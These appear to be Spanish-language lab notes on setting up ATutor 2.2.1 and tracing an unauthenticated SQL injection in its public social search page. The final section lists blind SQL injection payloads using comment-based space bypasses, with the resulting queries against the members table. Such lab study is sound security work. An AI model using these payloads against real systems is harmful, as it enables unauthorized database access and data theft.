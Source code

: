 ### Configuracion Atutor 2.2.1
- Descarga [https://sourceforge.net/projects/atutor/files/atutor_2_2_1/](https://sourceforge.net/projects/atutor/files/atutor_2_2_1/)

- POC: http://192.168.100.28/atutor/mods/_standard/social/index_public.php?q='

- Instalación

```
OS:  Ubuntu 14.04.6 LTS
mysql  atutor:atutor
PHP 5.5.9-1ubuntu4

[X] mysql
add (php.ini)
extensión=mysqli
extensión=pdo_mysql
restart apache2

[WARNING]
sudo apt-get install php5-gd
sudo apt-get install php5-curl
restart apache2

CONFIGURACION (FILE UPLOAD)
/var/www/html/atutor/include/classes/pclzip.lib.php
REEMPLAZAR
[gzopen]  -> [gzopen64]
[@gzopen] -> [@gzopen64]
```


----

#### Configurando el entorno MYSQL LOG
```
student@atutor:~$ sudo nano /etc/mysql/my.cnf <> /etc/mysql/mariadb.conf.d/50-server.cnf
[mysqld]
general_log_file = /var/log/mysql/mysql.log 
general_log = 1

student@atutor:~$ sudo systemctl restart mysql

sudo tail –f /var/log/mysql/mysql.log
```

Añadir al archivo ```/etc/php5/apache2/php.ini```
```
[...]
display_errors = On 
[...]
```

Reinicar apache
```
student@atutor:~$ sudo systemctl restart apache2
```

----

Todas las páginas que no requieren autenticación contienen la siguiente línea en su código fuente  
```
$_user_location = 'public'; 
```

Enumerar todas las páginas a las que podíamos acceder sin autenticación  
```
grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" -color
```

Después de pasar un tiempo haciéndolo, descubrimos un hallazgo potencialmente interesante. Miremos el código encontrado en ```/var/www/html/ATutor/mods/_standard/social/index_public.php``` 
```
14: $_user_location = 'public'; 15: 
16: define('AT_INCLUDE_PATH', '../../../include/'); 
17: require(AT_INCLUDE_PATH.'vitals.inc.php'); 
18: require_once(AT_SOCIAL_INCLUDE.'constants.inc.php'); 
19: require(AT_SOCIAL_INCLUDE.'friends.inc.php'); 
20: require(AT_SOCIAL_INCLUDE.'classes/PrivacyControl/PrivacyObject.class.php'); 
21: require(AT_SOCIAL_INCLUDE.'classes/PrivacyControl/PrivacyController.class.php'); 
```

 ```
 grep -rnw /var/www/html/ATutor -e "function searchFriends" --color
 ```

## PHP
- `isset`: Si tiene valor devuelve un **true**  
- `intval`: Obtiene el valor entero de una variable  
- `àddslashes`: Devuelve una cadena con barras invertidas añadidas antes de los caracteres que deben escaparse (',",\,NUL)  
- `continue`:se utiliza dentro de las estructuras iterativas para saltar el resto de la iteración actual del bucle y continuar la ejecución en la evaluación de la condición, para luego comenzar la siguiente iteración.

-----
## Exfiltracion de datos
```
> select/**/1;
> AAAA')/**/or/**/(select/**/1)=1%23 
> AAAA')/**/or/**/(select/**/1)=0%23
>  SELECT count(*) FROM AT_members M WHERE (first_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR second_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR last_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR login LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%');\n;
>  SELECT count(*) FROM AT_members M WHERE (first_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR second_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR last_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR login LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%');\n;
```


